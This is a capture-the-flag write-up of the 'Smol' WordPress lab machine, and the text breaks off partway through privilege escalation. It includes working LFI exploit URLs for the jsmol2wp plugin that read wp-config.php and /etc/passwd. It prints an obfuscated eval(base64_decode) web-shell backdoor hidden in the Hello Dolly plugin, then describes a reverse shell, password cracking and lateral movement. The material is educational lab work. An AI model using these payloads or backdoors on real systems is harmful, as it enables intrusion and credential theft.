# CTF Write-Up: Smol

## 1. Challenge Overview

- **Name:** Smol
- **Difficulty:** Medium
- **Category:** Web / Privilege Escalation / Password Cracking
- **Description:**  
  At the heart of Smol is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

---

## 2. Initial Analysis / Recon

We performed a full port scan identifying **SSH (22)** and **HTTP (80)** as the primary entry points. The scan reveals an **Apache 2.4.41** server on Ubuntu that redirects to `www.smol.thm`, This requires us to update our `/etc/hosts` file to access the site.

<div align="center">
    
</div>

Visiting `http://www.smol.thm` reveals the "AnotherCTF" landing page, which hosts articles on vulnerabilities like **RCE**, **SSRF**, and **XSS**. This confirms the web server is operational and provides a clear starting point for manual enumeration and directory searching.

<div align="center">
    
</div>

I discovered the email address `admin@smol.thm` at the bottom of the page. This identifies a potential administrative username that I can use for future authentication attacks (or not xd).

<div align="center">
    
</div>

I ran **ffuf** to fuzz for hidden files and directories, uncovering several WordPress-specific files like `wp-config.php` and `wp-login.php`. These findings confirm the backend CMS and highlight potential areas for configuration disclosure or credential testing.

<div align="center">
    
</div>

I probed the WordPress login page and identified a discrepancy in the authentication feedback. While random emails return an `unknown` error, valid addresses like **admin@smol.thm** trigger a specific `incorrect password` message. This confirms the account exists, allowing me to perform precise user enumeration and prepare for a targeted brute-force attack (or not xd).

<div style="display: flex; justify-content: center; align-items: flex-start; gap: 10px;">
  
  
  
</div>
<br/>

I used **_WPScan_** to identify the `jsmol2wp` plugin.

WordPress JSmol2WP plugin 1.07 is susceptible to local file inclusion via ../ directory traversal in query=php://filter/resource= in the jsmol.php query string. An attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized administrative operations in the context of the affected site. This can also be exploited for server-side request forgery.

Source: https://pentest-tools.com/vulnerabilities-exploits/wordpress-jsmol2wp-107-local-file-inclusion_2654

    wpscan --url http://www.smol.thm/

---

         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|
         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
           Sponsored by Automattic - https://automattic.com/
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________

    [+] URL: http://www.smol.thm/ [10.129.146.129]
    [+] Started: Sun Mar 22 17:13:15 2026

    Interesting Finding(s):

    [+] Headers
     | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
     | Found By: Headers (Passive Detection)
     | Confidence: 100%

    [+] XML-RPC seems to be enabled: http://www.smol.thm/xmlrpc.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
     | References:
     |  - http://codex.wordpress.org/XML-RPC_Pingback_API
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
     |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

    [+] WordPress readme found: http://www.smol.thm/readme.html
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%

    [+] Upload directory has listing enabled: http://www.smol.thm/wp-content/uploads/
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%

    [+] The external WP-Cron seems to be enabled: http://www.smol.thm/wp-cron.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 60%
     | References:
     |  - https://www.iplocation.net/defend-wordpress-from-ddos
     |  - https://github.com/wpscanteam/wpscan/issues/1299

    [+] WordPress version 6.7.1 identified (Insecure, released on 2024-11-21).
     | Found By: Rss Generator (Passive Detection)
     |  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>
     |  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>

    [+] WordPress theme in use: twentytwentythree
     | Location: http://www.smol.thm/wp-content/themes/twentytwentythree/
     | Last Updated: 2024-11-13T00:00:00.000Z
     | Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt
     | [!] The version is out of date, the latest version is 1.6
     | [!] Directory listing is enabled
     | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
     | Style Name: Twenty Twenty-Three
     | Style URI: https://wordpress.org/themes/twentytwentythree
     | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
     | Author: the WordPress team
     | Author URI: https://wordpress.org
     |
     | Found By: Urls In Homepage (Passive Detection)
     |
     | Version: 1.2 (80% confidence)
     | Found By: Style (Passive Detection)
     |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

    [+] Enumerating All Plugins (via Passive Methods)
    [+] Checking Plugin Versions (via Passive and Aggressive Methods)

    [i] Plugin(s) Identified:

    [+] jsmol2wp
     | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
     | Latest Version: 1.07 (up to date)
     | Last Updated: 2018-03-09T10:28:00.000Z
     |
     | Found By: Urls In Homepage (Passive Detection)
     |
     | Version: 1.07 (100% confidence)
     | Found By: Readme - Stable Tag (Aggressive Detection)
     |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
     | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
     |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt

## 3. Tools / Environment

## 4. Step-by-Step Solution

I exploited the LFI vulnerability by accessing the following URL:  
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`.  
This allowed me to read the **wp-config.php** file directly, which successfully leaked the cleartext database credentials for the `wpuser` account.

Source: https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt

<div align="center">
    
</div>

I used the credentials leaked from wp-config.php to log into the WordPress administrative panel. I am now authenticated as wpuser, giving me access to the dashboard and the internal features of the site.

<div align="center">
    
</div>

I used the URL:  
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../../../../../../../etc/passwd`  
to exfiltrate the **/etc/passwd** file. By encoding the output in Base64, I avoided any character rendering issues and successfully identified the system users: `diego`, `gege`, `think`, and `xavi`.

<div align="center">
    
    
</div>

I identified the **_`Hello Dolly`_** plugin while enumerating the `/wp-content/plugins/` directory.
I used the LFI vulnerability to inspect the source code, where I discovered a suspicious `eval(base64_decode(...))` block. Decoding the string revealed a hidden backdoor: `if(isset($_GET["cmd"])){system($\_GET["cmd"]);}`. By appending `?cmd=id` to the URL, I successfully executed system commands, confirming Remote Code Execution (RCE) as the **www-data** user.

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../hello.php`

```php ...
    // This just echoes the chosen line, we'll position it later.
    function hello_dolly() {
            eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));

            $chosen = hello_dolly_get_lyric();
            $lang   = '';
            if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
                    $lang = ' lang="en"';
            }

            printf(
                    '<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
                    __( 'Quote from Hello Dolly song, by Jerry Herman:' ),
                    $lang,
                    $chosen
            );
    }
    ...
```

<div align="center">
    
</div>

I generated a Base64-encoded payload to bypass character filtering and executed it through the cmd parameter by piping the decoded string into bash. After catching the connection with a netcat listener, I stabilized the shell using a Python PTY spawn to gain a fully interactive terminal. This allowed me to move beyond the limited web shell and operate directly on the system as www-data.

<div align="center">
    
    
</div>

I used the database password found earlier to log into **MySQL** and stole the password hashes for all the site users. I used **_`Hashcat`_** to crack the passwords, I discovered that **diego**'s real password was `sandiegocalifornia`. I then used the `su` command to switch from the web user to the **diego** user, gaining more access to the system.

<div align="center">
    
    
    
</div>

Inside diego's home folder i found the `user.txt` file.

<div align="center">
    
</div>

I found that the user think left his private SSH key (id_rsa) readable by other users, which is a major security flaw. I copied this key to my machine and used it to log in as him without needing a password. I am now successfully logged in as think, moving one step closer to full control.

<div align="center">
    
    
    
</div>

I discovered a pre-existing flaw in the **PAM** (Pluggable Authentication Modules) system, which handles how users log in. The file `/etc/pam.d/su` contained a rule that specifically allowed the user think to switch to gege without a password. In Linux, marking a rule as 'sufficient' means that if the condition is met (in this case, being the user think), the system decides that's "enough" proof and skips the password check entirely.

<div align="center">
    
    <br/>
    
    <br/>
</div>

I found an old file called `wordpress.old.zip` in gege's folder. To get it onto my Kali machine, I turned it into a text file using **base64** (so it wouldn't break during the move) and started a small web server with **Python** to "host" it. Once I downloaded and decoded it on my machine, I realized the zip was encrypted. I used **_`zip2john`_** to grab the password's "fingerprint" and John the Ripper to guess the password: `hero_gege@hotmail.com`. Inside, I found a new `wp-config.php` with a password for the user `xavi`.

<div>
    
    <br/>
